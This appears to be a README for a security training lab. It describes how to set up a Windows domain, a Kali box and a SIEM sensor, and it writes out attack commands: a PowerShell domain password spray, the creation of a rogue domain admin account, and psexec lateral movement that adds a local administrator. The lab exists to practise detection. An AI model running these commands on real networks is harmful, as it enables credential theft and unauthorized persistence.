 # Lab Setup

## Infrastructure
Your infrastructure can really be hosted anywhere.
- Locally via vmware, virtualbox, etc
- In the cloud via Azure, GCP, AWS
- Prod? (j/k)

### 1. Windows Domain Controller

### 2. Windows Endpoint
### 3. Kali Linux
### 4. Optional - Whatever you need for SIEM?
In my case you will see in the demos that I'm using a Blumira sensor. This is an Ubuntu box with a docker container that has a [Blumira](https://www.blumira.com) sensor installed on it. Because this isn't a SIEM training, it's difficult to go through a full lab setup of something like ELK or Splunk. 

## Files/Scripts/Commands

1. [Domain Password Spray from @dafthack] (https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1)
_ Right-click, run powershell as admin
```
CD *directory that you've cloned the powershell script into*
Get-ExecutionPolicy
Set-ExecutionPolicy Unrestricted
Import-Module .\DomainPasswordSpray.ps1
https://github.com/dafthack/DomainPasswordSpray
Cd C:/DNDShare
Invoke-DomainPasswordSpray -UserList userlist.txt -Domain forgottenforest.local -PasswordList passlist.txt -OutFile sprayed-creds.txt
```
2. Creating a Domain Admin
- Create a DNDUsers OU in Active Directory Users & Computers on the DC
```
Set-ExecutionPolicy Unrestricted
Import-Module ActiveDirectory
New-ADUser -Name "HP Lovecraft" -GivenName "HP Lovecraft" -SamAccountName "hplovecraft" -UserPrincipalName "hplovecraft@forgottenforest.local" -Path "OU=DNDUsers,DC=domain,DC=local" -AccountPassword(Read-Host -AsSecureString "Type Password for User") -Enabled $true
Add-ADGroupMember -Identity “Domain Admins” -Members hplovecraft
```
3. Data Exfil & Network Forensics

4. Lateral Movement
- Psexec add user to another server
```
CD into psexec directory
psexec.exe \\MagicRainbowPC.forgottenforest.local -u DNDUser1 -p passwordhere cmd
net user MyNewUser MyPassword#@$ /add
net localgroup administrators MyNewUser /add
```
